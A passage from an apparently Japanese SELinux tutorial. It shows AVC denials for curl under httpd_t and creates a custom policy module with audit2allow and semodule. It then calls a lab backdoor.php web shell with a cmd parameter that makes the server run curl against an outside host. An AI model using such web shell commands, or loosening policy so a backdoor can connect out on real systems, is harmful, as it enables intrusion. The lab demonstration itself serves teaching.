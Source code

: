 ~~~
Alert Count                   6
First Seen                    2021-10-20 11:52:58 JST
Last Seen                     2021-10-20 14:19:44 JST
Local ID                      ccddc712-ce2a-4215-a99f-8b4c37d9e9bb

Raw Audit Messages
type=AVC msg=audit(0000000000.461:493): avc:  denied  { name_connect } for  pid=4431 comm="curl" dest=80 scontext=system_u:system_r:httpd_t:s0 tcontext=system_u:object_r:http_port_t:s0 tclass=tcp_socket permissive=0
~~~

例外ルールの追加方法は2つあります。
1つ目はルールを自分で作成してシステムポリシーモジュールに登録する方法で、2つ目はブール値のon/offを設定する方法です。

### 方法1. カスタムポリシーモジュールを作成して登録する

上記のsealertの出力レポート結果の中に「allow this access for now by executing:」から始まる説明とコマンドの実行例が書かれてあります。
このコマンドを実行すると、すぐにSELinuxに例外ルールを追加できます。
~~~
allow this access for now by executing:
# ausearch -c 'curl' --raw | audit2allow -M my-curl
# semodule -X 300 -i my-curl.pp
~~~
今回は、ausearchでauditログを抽出する代わりに、出力結果の下部に表示されたauditログ（Raw Audit Messages）を抽出して使います。
抽出したauditログ(SELinuxによる拒否ログ)を audit2allow コマンドに入力することで、SELinuxで許可するためのポリシーモジュールを生成してくれます。
出力結果では、タイプ httpd_t が http_port_t:tcp_socket (TCPのソケットを開く権限) を許可していることがわかります。
~~~bash
~]# echo 'type=AVC msg=audit(0000000000.612:355): avc:  denied  { name_connect } for  pid=3297 comm="curl" dest=80 scontext=system_u:system_r:httpd_t:s0 tcontext=system_u:object_r:http_port_t:s0 tclass=tcp_socket permissive=0' | audit2allow

#============= httpd_t ==============

#!!!! This avc can be allowed using one of the these booleans:
#     httpd_can_network_connect, httpd_graceful_shutdown, httpd_can_network_relay, nis_enabled
allow httpd_t http_port_t:tcp_socket name_connect;
~~~
カスタムポリシーモジュールとして良さそうなので、my-curl というファイル名で保存します。
保存したカスタムポリシーモジュールを優先度300でSELinuxに登録して、システムポリシーモジュールの一覧に登録されたことを確認します。
~~~bash
~]# echo 'type=AVC msg=audit(0000000000.612:355): avc:  denied  { name_connect } for  pid=3297 comm="curl" dest=80 scontext=system_u:system_r:httpd_t:s0 tcontext=system_u:object_r:http_port_t:s0 tclass=tcp_socket permissive=0' | audit2allow -M my-curl
~]# semodule -X 300 -i my-curl.pp
~]# semodule --list-modules=full | grep my-curl -3
300 my-curl           pp
200 container         pp
100 abrt              pp
100 accountsd         pp
~~~
例外ルールが追加できたら、再びPowerShellのcurlでアクセスしてみます。
~~~powershell
PS> (curl http://192.168.56.102/backdoor.php?cmd=curl+example.com).Content
<pre><!doctype html>
<html>
<head>
    <title>Example Domain</title>

    <meta charset="utf-8" />
    <meta http-equiv="Content-type" content="text/html; charset=utf-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1" />
    <style type="text/css">
...(省略)...
~~~
結果、バックドア経由で `curl example.com` が実行され、その結果がWebページに埋め込まれて表示されました。